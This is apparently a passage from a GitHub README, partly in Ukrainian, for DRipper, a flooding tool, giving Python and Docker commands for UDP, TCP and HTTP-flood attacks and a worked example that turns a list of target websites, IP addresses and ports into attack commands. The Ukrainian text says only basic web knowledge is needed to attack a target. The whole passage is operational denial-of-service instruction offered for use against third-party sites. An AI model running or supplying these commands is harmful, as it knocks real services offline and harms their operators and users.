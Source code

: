 ```

python  DRipper.py -t 100 -r 1 -l 1024 -s udp://localhost:8070
python3 DRipper.py -t 100 -r 1 -l 1024 -s udp://localhost:8070

docker run -it --rm alexmon1989/dripper:2.5.0 -t 100 -r 1 -l 1024 -s udp://localhost:8070

HTTP-FLOOD attack:
dripper -t 100 -e GET -s http://localhost:8070

python  DRipper.py -t 100 -e GET -s http://localhost:8070
python3 DRipper.py -t 100 -e GET -s http://localhost:8070

docker run -it --rm alexmon1989/dripper:2.5.0 -t 100 -e GET -s http://localhost:8070
```

---

## Команди DRipper

Для того, щоб атакувати ціль, достатньо мінімальних базових знань в галузі Web-технологій.

Скрипт працює на операційних системах Linux, macOS, Windows. Для запуску скрипта потрібен **Python** >= 3.9 версії або Docker.

Розглянемо на прикладі як створити команду для запуску скрипта, якщо у Вас є в наявності деякий список цілей.

```bash
# Приклад списку цілей:

https://site1.tv
111.22.33.444 (80/tcp, 443/tcp, 53/udp)

https://www.site2.ru
222.33.444.555 (25/tcp, 80/tcp, 443/tcp)
333.33.555.678 (25/tcp, 80/tcp, 443/tcp)

http://www.site3.com
```

На основі вище вказаного списку, можемо створити команди для атак різних типів, 
наприклад для сайта `https://site1.tv` і `https://www.site2.ru` відомі ІР адреси і порти. 
Для них дуже легко створити команду для атаки. А для `http://www.site3.com` - немає ніякої додаткової інформації, 
тому створимо для цього ресурсу всі можливі варіанти.

```bash
# Приклад атак на основі списку цілей:

# Ціль 1
# https://site1.tv
# 111.22.33.444 (80/tcp, 443/tcp, 53/udp)

# Атака 1
python3 DRipper.py -t 300 \
    -s tcp://111.22.33.444:80 \
    -s tcp://111.22.33.444:443 \
    -s udp://111.22.33.444:53
```

